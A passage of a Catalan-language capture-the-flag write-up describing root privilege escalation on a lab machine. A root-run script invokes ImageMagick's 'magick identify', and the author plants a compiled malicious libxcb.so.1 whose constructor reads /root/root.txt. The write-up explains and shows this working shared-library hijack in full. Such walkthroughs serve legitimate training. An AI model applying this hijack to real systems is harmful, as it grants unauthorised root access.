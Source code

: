 
Ara que som dins, hem de veure la forma d'escalar privilegis dins el sistema per obtenir la root flag. Despés de provar vàries coses i donar moltes voltes, veig que hi ha un script:

```
developer@titanic:/opt/scripts$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

## 🔍 Què fa aquest script?

1. **Canvia de directori** a on hi ha les imatges.

2. Buida el fitxer `metadata.log`.

3. Utilitza `find` per buscar `.jpg` i executa `magick identify` sobre cadascuna.


I aquí està el kit de la qüestió: `magick identify` **és el binari vulnerable** perquè:

- Es carrega com a root.

- Carrega `.so` (shared objects) automàticament.

- Prioritza rutes locals si no està protegit.


Llavors veiem que quan `magick identify` s'executa sobre qualsevol `.jpg`, intenta carregar `libxcb.so.1` si hi ha funcions relacionades amb la GUI (o les fonts o altres backends que la necessiten), i si aquesta `.so` està a la mateixa carpeta que la imatge, **la carrega directament**.

Per tant, ara anem a la carpeta on es troba la imatge usada per l’script: ``cd /opt/app/static/assets/images`` 

Compilem una biblioteca compartida (`.so`) falsa amb codi maliciós:

```
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log

```
